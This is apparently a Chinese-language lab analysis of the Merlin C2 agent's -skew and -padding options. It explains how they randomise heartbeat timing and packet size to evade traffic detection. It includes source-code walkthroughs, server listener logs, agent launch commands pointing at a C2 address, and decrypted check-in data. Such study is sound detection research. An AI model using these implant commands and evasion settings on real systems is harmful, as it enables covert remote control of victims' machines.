

## 灵活配置心跳包发送频率偏移

Merlin Agent远控木马支持在运行过程中使用`-skew`参数自定义心跳包频率偏移，默认心跳包频率偏移为3000（对应为3s）。

相关参数说明如下：



### 底层代码原理

尝试对Merlin Agent远控木马源码进行剖析，笔者发现，Merlin Agent远控木马通信过程中，还配套了一个`-skew`参数，可用于与`-sleep`参数配套使用，`-skew`参数的功能为让心跳包通信频率在一定范围内波动，避免流量检测系统基于固定心跳包频率进行检测。

`-skew`参数值的使用过程如下：



代码`sleepTime = a.Wait() + (time.Duration(rand.Int63n(a.Skew())) * time.Millisecond)`的功能为：

* 在0至`-skew`参数值之间产生一个随机数，用于心跳包频率偏移时间；
* 心跳包频率偏移时间 + 心跳包频率 = 心跳通信的随机时间；

### 实操自定义心跳包频率偏移

实操流程如下：

* Merlin Server

```
Merlin» listeners
Merlin[listeners]» use HTTPS
Merlin[listeners][HTTPS]» set Interface 192.168.64.128

[+] 2025-02-21T02:28:52Z set 'Interface' to: 192.168.64.128
Merlin[listeners][HTTPS]» start

[-] 2025-02-21T02:28:54Z Certificate was not found at: "C:\Users\admin\Desktop\merlin-main\data\x509\server.crt"
Creating in-memory x.509 certificate used for this session only

[+] 2025-02-21T02:28:55Z Started 'My HTTP Listener' listener with an ID of 48960e5d-a89c-41e2-be4d-3a3bf45198f7 and a HTTPS server on 192.168.64.128:443
Merlin[listeners][48960e5d-a89c-41e2-be4d-3a3bf45198f7]» info

+---------------+----------------------------------------------+
|     NAME      |                    VALUE                     |
+---------------+----------------------------------------------+
| Protocol      | HTTPS                                        |
+---------------+----------------------------------------------+
| JWTLeeway     | 1m0s                                         |
+---------------+----------------------------------------------+
| Port          | 443                                          |
+---------------+----------------------------------------------+
| URLS          | /                                            |
+---------------+----------------------------------------------+
| JWTKey        | Q3lNZ3ZuQ1NnSlZSRGlyb2pKbHRBdHJBWXhrVWxYQWw= |
+---------------+----------------------------------------------+
| Name          | My HTTP Listener                             |
+---------------+----------------------------------------------+
| Interface     | 192.168.64.128                               |
+---------------+----------------------------------------------+
| ID            | 48960e5d-a89c-41e2-be4d-3a3bf45198f7         |
+---------------+----------------------------------------------+
| Authenticator | OPAQUE                                       |
+---------------+----------------------------------------------+
| Description   | Default HTTP Listener                        |
+---------------+----------------------------------------------+
| X509Cert      |                                              |
+---------------+----------------------------------------------+
| X509Key       |                                              |
+---------------+----------------------------------------------+
| Transforms    | jwe,gob-base,                                |
+---------------+----------------------------------------------+
| PSK           | merlin                                       |
+---------------+----------------------------------------------+
| Status        | Running                                      |
+---------------+----------------------------------------------+

Merlin[listeners][48960e5d-a89c-41e2-be4d-3a3bf45198f7]»
```

* Merlin Agent

```
merlinAgent-Windows-x64.exe -url https://192.168.64.128:443/ -proto https -sleep 10s -skew 5000
```

尝试捕获通信过程中的通信数据包，分析发现，Merlin Agent远控木马执行后，其心跳包频率将在10s至15s之间波动。

相关数据包截图如下：



## 混淆和随机化通信数据包的大小

Merlin Agent远控木马支持在运行过程中使用`-padding`参数自定义通信包的附加数据大小，默认附加数据大小为4096，此参数的主要功能为**混淆和随机化通信数据包的大小**。

相关参数说明如下：



### 底层代码原理

尝试对Merlin Agent远控木马源码进行剖析，笔者发现，Merlin Agent远控木马通信过程中，每次调用send函数发送数据时，均会对messages.Base通信数据结构体中的Padding字段进行填充，填充的逻辑为：

* 调用`rand.Intn(client.PaddingMax)`代码生成0至`-padding`参数值之间的随机数；
* 调用`core.RandStringBytesMaskImprSrc(rand.Intn(client.PaddingMax))`代码生成上述随机数长度的随机字符串；
* 填充至messages.Base通信数据结构体中，调用Construct函数对数据进行序列化处理后发送数据；

相关代码截图如下：







### 实操自定义通信包的附加数据大小

实操流程如下：

* Merlin Server

```
Merlin» listeners
Merlin[listeners]» use HTTP
Merlin[listeners][HTTP]» set Interface 192.168.64.128

[+] 2025-02-21T03:21:07Z set 'Interface' to: 192.168.64.128
Merlin[listeners][HTTP]» set Authenticator none

[+] 2025-02-21T03:21:19Z set 'Authenticator' to: none
Merlin[listeners][HTTP]» info

+---------------+----------------------------------------------+
|     NAME      |                    VALUE                     |
+---------------+----------------------------------------------+
| Transforms    | jwe,gob-base                                 |
+---------------+----------------------------------------------+
| Authenticator | none                                         |
+---------------+----------------------------------------------+
| JWTLeeway     | 1m                                           |
+---------------+----------------------------------------------+
| Name          | My HTTP Listener                             |
+---------------+----------------------------------------------+
| Interface     | 192.168.64.128                               |
+---------------+----------------------------------------------+
| PSK           | merlin                                       |
+---------------+----------------------------------------------+
| Protocol      | HTTP                                         |
+---------------+----------------------------------------------+
| Description   | Default HTTP Listener                        |
+---------------+----------------------------------------------+
| Port          | 80                                           |
+---------------+----------------------------------------------+
| URLS          | /                                            |
+---------------+----------------------------------------------+
| JWTKey        | R2ZSQ1RPY0VNbHJkYUxEelRlTXlaZkxDeXNLdk1kV20= |
+---------------+----------------------------------------------+

Merlin[listeners][HTTP]» start

[+] 2025-02-21T03:21:24Z Started 'My HTTP Listener' listener with an ID of 1d88c45c-341a-4af0-927a-0507a2d3c391 and a HTTP server on 192.168.64.128:80
Merlin[listeners][1d88c45c-341a-4af0-927a-0507a2d3c391]»
```

* Merlin Agent

```
merlinAgent-Windows-x64.exe -url http://192.168.64.128:80/ -proto http -auth none -padding 200
```

尝试捕获通信过程中的通信数据包，对比发现，`-padding`参数为200的通信数据包确实比默认4096的通信数据包小很多。

相关数据包截图如下：

* `-padding`参数为200



* 默认`-padding`参数为4096



尝试对checkIn()函数的通信数据进行解密对比，对比如下：

* `-padding`参数为200

```
{ID:f2898e0f-0e96-4713-872f-596b2eec18ca Type:StatusCheckIn Payload:<nil> Padding:iOMcxhfxAntmhewJtfwguHzkgSderDFCYjdYqYIQIVaBLYInBLDDfJgZMCCGGWDshuTjVfocWbOWxZQyILYcbXQtPziHAnwyJkvfabcpFoXGMuFTBARZySajLkCBDjgmDdJQwyhHBZWNSSkFSNcUoGXltiDttdZLDmWAKJSMSDYLmelKcJJIFDImkVyLpYvOsAPvZbb Token: Delegates:[]}
```

* 默认`-padding`参数为4096

```
{ID:ea000025-626d-4117-bbbb-22e7247ee35a Type:StatusCheckIn Payload:<nil> Padding:VzmvXojTMyMGCfaNUdGLYHiFUwNseSjpylmtCLhGUrBgpRwpvIJvfLsNioOxQZHVTDaagxTRrMokzdgMBjFLDXyuPlyCczWepUNSktHOWjfnzsqznrblOUllUUgQJotUdpiZfrpJwmGfzdKUWYPouzUFjejYaaucYlZbxHYhsxCsbPTzkgVCcmhpmRxvkSOnjzyQoMXsZvagOdhckWyaIhXHOIKJcjVPeRqePbsyDlBVcwbpZzSqiyaZIgHAdnUUpnbIiVKlutLPbOGnCIEDcRdCvKXqOwgJUxpcNsFEWGFKYzyXBmovvPVZVnHrXqjwvNrYkSzcpclAhPNyQajqTzcebxnrBnicLVSBwBpnjpIpwDTzGRsIDuGyhJVTtftZrFFOAwlbOzilAFzDGkFLshOGZEiGmGMKfxaQzMAORGQpHOgNDVRHvOyaKaKjIsOufMBDgAyFFbNTJqxYDTgWPsTpfxjuUkwlwmaFxXHCwHuMZQENfjVmmKerEZLoyOFYWnbEjCMOXAxwSoyvPRHkNNvGomZSDyGGBJsYCEWGpUtoKYXbCQtpPdrvQGTShwObWsSvdwBKVMEziRUDdYltDUwXsQngbzQvQLmZfliLsDbDtPMpQqKqRQgndUuERmEmDLxLeftNpLuoSPZSDCmXorOwEFxYwAadVPbeetkcBRRHihKFpQyfbQREXbweaFhpPIISOBoJaAuTtIlWzOFBsWBJakgjwDMJezWYjXLSQeDpwmvojknGrbSLoFCTBlbfItNoPTuuMYpWizuPiTvJLeTPSxKtEywFekkVKKLpSgSEaZJONNXvaeOnngguLUPUMeuOmxpIuWZBsjJeIFnOGXHNuXQITiHCuCtnifQEeAPBukuyPSTmzHyvONIykTaVqNzBCMiaQeSzLzLVuqwmLmXYBImATDoRqxgJHRPLgdWlIrRSMNuamRQSqkSFNUhHCydMsgAMiQktLjxfyLInNAWmRoyuCNodMOPtTksDSzfFTeMauyirgwroQupntktqLcWKaprgfBjHzZIImDyYxtslCesNeilYYQXkDnPDCrTYJPNqiDfbsyBKqlbjbZmGPxurXePgAjajToUxKeiynBsdplgzGKwQveyhzStpRlZTAQOtWlsCzIRyiImncMFRyoiBCruWRFUxTcPbDmKfLtYPZcEvmcLbxQTzkSldrkGqMJIvzjsYHwVwVPyfizHESwhsJIIXjEEukbiDxgnLHCMinhOgVlMzTuIlNKJMNNqLwxohyQCgRMTgwcLGKUivOlaLeDDWnFpWahHvgAeobNAWACALiKXaWGQNhUybimQcJSQqQyzcGAbckTcqniQEAIXVWDpAlgrbLTPZIAfOhWjabrDOkupQOgIYqduZgGhXwFRexQoqZWtxUIhqCksutlrZFFIOnptoGSitguAijzblswxhRwckCLkowsXVHkdTnjyPkemKQeBIuMYQdvbLCKRMlfxXnKUETCfZllcbvYjfmUJeuZLPPQtyicqCMcebAqXIHtEGKZYjcnUdpvHQUNPGIJFnDZzsxfEawCFIbrLpHQhnDQkgxhfPjswHvdFdVZdFjSLLJRhOOHFRTNHchenvldySfipnRANcHbFomQxHWsYBsRGiMWzpWKjfsynyIWvoXqSEVLoIEEuYuQgEfnowhtJAnLHHCOgsfBVWmwyZQsLzSgxumrvBAtGhTedbdCntmDBrtNtSfOzHdBHkJJKfDnUukChbGWKqxHXtNZuYjuyTAaUFNaYjwvrklLxyrHibCpmpzlMulzAGstrHYXYCcLWBUbUSBfcVCGpjwxLrsTMEuMtmLTbfebooNDPAlfXpYULDlmgBLXnqbIEomdEUzjdsnQDvjnlyIJOojUlOHGldLUnYTdnnBEEOkbAaZpoyNTlKKBswJmcYyJtRnHMiGvKfaOhtEFWYqvxiwAJaEwJKJDltjQwtFbsTRgIACUpLkEAyFWrVmpvKDXZYfuzYOanLrYHqSSWuzjJDHWLUqkOCJvouGNWOHhPiqSKWhKzeQpfHeLMFMKLBUoFluYJiulixJjnBdiCqwsyQPgyYLGgmenlPatgRkmzMHbZqDCSsSwgQFBiMnFltmqZnjvaWpavzysEylqpFxumUzVnlRrFvPXpIduYBBkSMxxahzeEopTfscvJUPruJqqHvFyXZBUcCClQnQICSnKfHbzLtRtgaykaUXocLUlGljQpTYUhjtXvozwUHFsjUvUckfjXUguyPieztnxTYPEtTvJUpUWIgNSDlKwrRHowYLgEKMViaKXAEQmxYTyjUpvJIBEzvkBuleVrysSZVmNPeDFOvaDVbIokjJtdlpfcxwJZWVYqQPdPenJvilNLPkqRfTLribiibaFzSCXEILzjOpcLfOUnBAvmIYuzMeRhqNFkzCFBKFGxMmUuHzdxDhAKIAvOpQGEKIQMsdrHarcdIIbxScVppZAepEiZAgYIbMFjElcROrxUrLsOshLnTpbVjXslcSkhKBukmzYdbYURduJQcmJAGMsThzdavwwBUlcMKrDrNlRmDfWvSovIwvnVZqsHnpnLnywNoBRRrXXURjFDlWKCnrSIMjPcvZxsOksplHaI Token: Delegates:[]}
```
